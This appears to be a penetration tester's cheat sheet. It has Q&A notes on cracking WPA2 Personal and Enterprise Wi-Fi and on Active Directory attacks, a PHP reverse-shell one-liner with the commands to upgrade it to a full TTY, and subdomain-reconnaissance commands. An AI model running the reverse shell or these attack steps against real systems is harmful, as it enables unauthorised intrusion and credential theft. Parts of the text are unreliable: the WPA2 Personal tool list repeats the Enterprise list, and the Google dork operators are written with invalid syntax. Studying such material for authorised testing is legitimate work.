 A: Both use a strong encryption method called AES-CCMP to encrypt data transmitted over the air. The main difference between these security modes is in the authentication stage: WPA2 Enterprise uses IEEE 802.1X, which offers enterprise-grade authentication, while WPA2 Personal uses pre-shared keys (PSK). To crack WPA2 Personal (same same for WPA), you can capture the four way handshake, during which the AP and the client use a nonce and the pre-shared key (PSK) to generate the pairwise transient key (PTK). Then use a list of possible plain text passwords or a pre-computed table of hashed passwords (Rainbow Tables) to indentify the PSK. Some of the available tools to attack WPA2 Personal are Aircrack-ng, FreeRADIUS and asleap.Attacking WPA2 Enterprise is more complex: the attack consists of spoofing the target network and provide a better signal to the client than legitimate access point, in order to perform a mitm attack between clients and network infrastructure, because currently the TLS tunnel is enough secure and not easily attackable. To make this type of attack you need to be physically proximity to the target, especially staying within the action range of enterprise access point. Some of the available tools to setup such attack are Aircrack-ng, FreeRADIUS and asleap.

Q: Very last question on AD internal pentesting: can you mention few possible attacks/scenarions when dealing with AD environments?
A: Generally speaking, these are the most common attacks/scenarios available in a AD environment: LLMNR/NBT-NS poisoning attacks, SMB relay attacks, IPv6 DNS takeover attacks, Pass-the-password/pass-the-hash, token impersonation, Kerberoasting, Golden Ticket, PowerView/BloodHound enumeration tools, credential dumping with Mimikatz

### Shell Upgrade
[example of reverse shell]
php -r '$sock=fsockopen("127.0.0.1",8000);exec("/bin/sh -i <&3 >&3 2>&3");'

[in remote shell]
which python
which python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z

[on local system]
stty size
stty raw -echo; fg

[in remote shell]
stty cols XX
stty rows YYY
export TERM=xterm-256color

### Recon
Google Dorking:
	site:example.com inurl=.jsp
	site:example.com inurl=login
	site:example.com title=admin
subfinder
	subfinder -d example.com -all -cs | tee -a example.com-subfinder.txt
host
	cat example.com-subfinder.txt | cut -d "." -f 1 | tee -a example.com-domains.txt
	cat example.com-domains.txt | xargs -I{} host {} | tee -a example.com-hosts.txt
httpx
	cat example.com-domains.txt | httpx -title -wc -sc -cl -ct -web-server -asn -o example.com-httpx.txt -p 80,443,3000,5000,7070,8000,8008,8080,8443,9000,9000,9200,15672 -threads 75 -location
amass
	amass enum -brute -min-for-recursive 2 -d example.com
	amass enum -active -d example.com -p 80,443,8080
	amass enum --passive -d example.com
